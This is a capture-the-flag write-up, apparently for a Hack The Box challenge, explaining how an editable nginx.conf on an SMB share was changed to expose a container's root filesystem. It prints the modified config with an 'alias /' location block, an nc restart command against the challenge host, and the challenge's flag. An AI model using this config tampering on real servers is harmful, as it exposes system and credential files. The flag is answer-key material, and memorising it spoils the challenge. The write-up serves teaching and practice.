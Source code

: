 # Secure Coding - StoneForges Domain

## Challenge Information
- **Category**: Secure Coding
- **Challenge Name**: StoneForges Domain

## Overview

In this challenge, we exploited a misconfigured Nginx setup on a Docker container running a Flask application. Although direct path traversal was blocked, we had write access via an SMB share, which allowed us to modify the Nginx configuration. By adding a new location block, we exposed the container’s root filesystem, letting us access the flag file.

## Steps

### 1. Accessing the SMB Share

We mounted the SMB share that contained the configuration files. The share exposed the following directory structure:

```
config/
├── nginx.conf
├── postgresql.conf
└── supervisord.conf
```

Even though the files were owned by `root` with mode `755`, only `nginx.conf` was editable.

### 2. Modifying `nginx.conf`

We edited the `nginx.conf` file to add a new location block that serves files from the root filesystem. The modified configuration is shown below:

```nginx
user www-data;
pid /run/nginx.pid;
error_log /dev/stderr info;

events {
    worker_connections 1024;
}

http {
    server_tokens off;
    log_format docker '$remote_addr - $remote_user [$time_local] "$request" '
                      '$status $body_bytes_sent "$http_referer" '
                      '"$http_user_agent" "$http_x_forwarded_for"';

    access_log /dev/stdout docker;

    include /etc/nginx/mime.types;

    server {
        listen 3000;
        server_name _;

        charset utf-8;
        client_max_body_size 5M;

        location /static {
            alias /www/application/app/static/;
        }

        # New location block to expose the root filesystem.
        location /flag {
            alias /;
        }

        location / {
            proxy_pass http://127.0.0.1:8000;
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
            proxy_set_header X-Forwarded-Proto $scheme;
        }
    }
}
```

### 3. Triggering a Restart

After saving the modified `nginx.conf` via the SMB share, we triggered an Nginx restart. For example, by connecting to the appropriate restart endpoint:

```bash
nc 83.136.251.145 34603
```

This command caused Nginx to reload the new configuration.

### 4. Retrieving the Flag

With the new configuration in place, the flag file (placed at `/flag.txt` by the Dockerfile) became accessible via the URL:

```
http://83.136.251.145:59733/flag/flag.txt
```

Visiting this URL returned the flag:

## Flag
```
HTB{W4LK1N9_7H3_570N3F0R93_P47H_45_R3QU1R3D_e300e8639b5e8cfcacd903a2f85bc286}
```

## Conclusion

By leveraging our write access to modify `nginx.conf`, we bypassed the restrictions imposed by the static file serving and path traversal protections. This allowed us to expose the root filesystem and retrieve the flag.

**Author**: [binchickens69](https://ctf.hackthebox.com/user/profile/605069)